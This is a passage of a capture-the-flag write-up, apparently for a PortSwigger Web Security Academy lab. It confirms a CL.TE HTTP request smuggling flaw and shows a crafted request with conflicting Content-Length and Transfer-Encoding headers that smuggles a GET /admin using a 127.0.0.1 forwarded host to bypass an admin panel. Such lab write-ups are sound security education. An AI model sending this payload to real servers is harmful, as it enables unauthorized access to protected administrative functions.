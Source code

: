 As you can see, we successfully smuggled a 404 GET request, and returns HTTP status "404 Not Found".

Hence, the web application is **vulnerable to CL.TE HTTP request smuggling.**

**Now, we can try to bypass the admin panel!**
```http
POST / HTTP/1.1
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Forwarded-Host: 127.0.0.1
X-Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201165625.png)
